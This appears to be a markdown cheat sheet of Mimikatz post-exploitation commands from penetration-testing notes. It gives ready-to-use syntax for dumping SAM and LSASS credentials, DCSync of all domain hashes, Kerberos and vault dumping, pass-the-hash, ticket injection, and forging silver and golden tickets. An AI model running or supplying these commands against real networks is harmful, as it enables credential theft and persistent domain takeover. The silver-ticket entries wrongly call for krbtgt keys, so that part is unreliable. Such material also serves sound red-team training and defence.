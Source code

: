 #post-exploitation #credential-dumping #ticket-dumping
# Mimikatz

## General Overview

Post exploitation commands must be executed from SYSTEM level privileges.
- mimikatz # privilege::debug
- mimikatz # token::whoami
- mimikatz # token::elevate
- mimikatz # lsadump::sam
- mimikatz # sekurlsa::logonpasswords
- mimikatz sekurlsa::tickets
- mimikatz sekurlsa::tspkg

Dump the Domain's Credentials without touching DC's LSASS and also remotely

- mimikatz lsadump::dcsync /domain:megacorpone.com /all

Dump old passwords and NTLM hashes of a user
- mimikatz lsadump::dcsync /user:megacorpone.com\afsimmons /history

List and Dump local kerberos credentials
- mimikatz kerberos::list /dump

List Vault Credentials: 
- mimikatz vault::list

## Pass The Hash

- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

## Inject generated TGS key

- mimikatz # kerberos::ptt <ticket_kirbi_file>

## Generating a silver ticket 

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

AES 128 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>


## Generating a Golden Ticket

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

AES 128 Key: 

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>





